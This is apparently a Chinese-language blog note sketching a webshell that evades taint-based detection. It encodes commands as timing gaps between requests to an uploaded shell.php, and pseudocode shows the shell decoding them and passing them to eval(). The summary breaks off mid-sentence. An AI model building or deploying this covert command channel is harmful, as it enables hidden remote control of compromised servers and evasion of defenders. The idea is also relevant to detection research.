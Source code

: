 # 总体思路
当前一些webshell查杀高级的一些会基于污点传播理论。

污点源标记  -->  污点传递 -->  敏感函数汇聚点检查

污点外部来源有很多途径：get，post，cookie，测信通道，dns等等。

现在设想下如果有一种通信是基于 无任何输入源，即webshell file代码里不从http请求报文中获取任何信息，不主动向外网请求任何资源。是不是认为就没有污点源呢？
我们可以设计一个类似电报一样的协议去表达二进制：01110111 为：du.du..du..du..du.du..du..du..du。  一个"du"代表一个shell.php请求，一个"."代表一个时间单位。

前置条件: 已经上传了一个shell.php
1. 抽样统计出服务端一个http请求的大概延时，timeunit(".") = 5ms
2. 将控制命令转换为二进制编码： “whoami" --> "01110111 01101000 01101111 01100001 01101101 01101001"
3. 二进制转换为du编码："01110111 01101000 01101111 01100001 01101101 01101001" --> "du.du..du..du..du.du..du..du..du  省略"
4. du协议开始 send("<>")
5. 持续发送du协议 命令报文
6. du协议终止 send("</>")
7. webshell.php 将du协议数据转换为01 二进制
8. 命令执行

#client端伪代码：

## "du..du"

curl("webshell.php")
wait_for(mean_delay * 3)
curl("webshell.php")

## "du.du"

curl("webshell.php");
nop;
curl("webshell.php");

## 完整性纠正

如果两次请求因为网络或者其他原因导致延时，协议转换出错，客户端简单粗暴丢弃整个会话，重新开始。

#webshell.php 伪代码：

du_queue = ()
session_end = false
last_time = null
diff_time = cur_time - last_time
if diff_time <= mean_delay * 2
    du_queue.push(".du")
else if diff_time > mean_delay * 3 and diff_time < mean_delay * 4
    du_queue.push("..du")
    
if is_session_end(du_queue)
    session_end = true

//如果会话超时即自动清除上下文

time_out_cancel()

if  session_end
    binary = trans(du_queue)
    eval(binary)
    response.print("session end")
else 
    response.print("ok") 

# 总结

以上是一个设想思路先记录下来。数据传输的完整性基本上依赖

# 参考
[基于污点传递做webshell查杀](https://zhuanlan.zhihu.com/p/197553954?utm_source=wechat_session&utm_medium=social&utm_oi=62771915915264&utm_campaign=shareopn)
